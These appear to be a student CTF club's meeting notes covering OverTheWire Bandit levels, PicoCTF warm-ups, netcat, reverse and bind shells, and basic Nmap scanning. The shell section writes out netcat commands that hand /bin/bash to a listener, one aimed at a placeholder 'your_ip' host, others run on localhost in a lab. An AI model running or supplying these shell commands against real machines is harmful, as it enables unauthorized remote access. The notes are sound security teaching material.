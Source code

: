 ## CTF Meeting 2-2-22 Overview

- Started out with Bandit level 7

- Utilized commands such as `grep` and `cat` when accessing data.txt file

- `grep millionth data.txt -A 5 -B 5`

- located 'millionth' string within data.txt, to find the password

- On bandit level 8, we used `head data.txt` to get the heading part of the catted text contained in *data.txt*.

https://i.imgur.com/6vGceyD.png

- we used `sort` command to find unique instances of strings within data.txt using `uniq -u` to only print unique lines.

## Bandit 9

- `Strings` command is used to discern what files are readable within a certain file.
- For example: `strings data.txt | grep "====="`
will read all readable strings within *data.txt* and pipe them to a line after ====.

## PicoCTF Practices


- We did 'Let's Warm up' last week.

- Waseem was explaining hexadecimal format; hexadecimal is basically a step up from binary in terms of human-readability.

- How do we translate 0x70 (hexadecimal) to ASCII?
  - Easiest way is to go to a tool **Cyberchef** and input 0x70 to have it converted to ASCII.

- Cyberchef will output 0x70 as 'p' in ASCII.

- 'Nice Netcat' is another good introduction to PicoCTF.
   - running the specified command gives us output that is obviously not in english. What should we do?
   - Run Cyberchef. we can see that this will output the CTF flag after cyberchef converts the ASCII gibberish.

- WE very importantly learned that you say you 'PWNED' someone whenever you deface their webpage/architecture. Word.

- Waseem bragged about his ability to automate a challenge.

## Netcat 

- **Netcat** will be used so many times. 

- 'Listen Mode' in netcat is imperative to know about.
   - nc-l    (listen)
   - nc -v     (verbose)
   - nc -n         (no domain name (suggests to use an IP))
   - nc -p         (port)

- Let's combine all this parameters: `nc -nvlp`

- Woah, if we combine all those flags in netcat we get a command that will listen to connections only from IPs, and will require a port, and will output details in verbose mode.

## Shells

### Reverse Shells

- The idea of a reverse shell is to use a victim's host machine to allow incoming connections.
- You setup a listener on your machine:
   - nc -e /bin/bash your_ip your_port   (this was run on one of the terminal instances on RedHat machines in the computer lab)
   - nc -nvlp your_port     (this is the listener, we set this up on another terminal instance on the RedHat machines.)
Hint: you can use `ip a` to locate your IP address

How this looked in class:

Listener: `nc -nvlp 4444`

Connection: `nc 127.0.0.1 4444 -e /bin/bash`

After doing this, the listener can use `whoami` to find details about the connection-hosting machine.

### Bind Shells

- These shells exist forever until someone connects. Anyone can connect, as opposed to reverse shells.
- Bind shells work by creating a listener, like before.
   - nc -nvlp 4444 -e /bin/bash

- After doing this, one of the machine (the host) will be listening: `Listening on [any] 444 ...`
- Then we need to setup a connection instance with a host machine(we had used our ubuntu machine to connect to the host):
  - nc -v 127.0.0.1 4444

After this, on the ubuntu machine we're using to connect, we should see `localhost [127.0.0.1] 4444 (?) open` 

## Intro to NMap

- **Nmap** is basically a tool that lets you scan ports on a machine, or many machines.
- Allows us to see what doors a machine has open. 
- As a blueteamer or pentester, you need to know what services are running on a machine, be it Linux or Windows.

- Nmap is commonly used by security analysts and hackers alike.

- We did some practice with NMap: 
   - First we needed to update our Ubuntu machines, and install Nmap:
   
   `sudo apt full-upgrade`     (apt is the package manager that Debian uses)
   `sudo apt update && sudo apt dist-upgrade -y`
   - After issuing these two commands in our terminal, our machine should be fully prepped for nmap sickness.
- Installing nmap:
   - `sudo apt install nmap -y`

- Using Nmap:
- `nmap -h` will bring up the 'help' list of commands for nmap.

- But before this, we had a scuffed demonstration of how TCP works. 
- **SYN/ACK** means TCP says yes.
TCP basically asks if it can connect, given the existence of a certain port.

- UDP does not ask questions.

https://i.imgur.com/vlZAnw9.png

- Nmap usage:
   - `nmap -v 10.226.19.219 -p80,22` 
   Here we are specifically scanning the above ip address under ports 80 and 22, which correspond to **ssh** and **http** services.







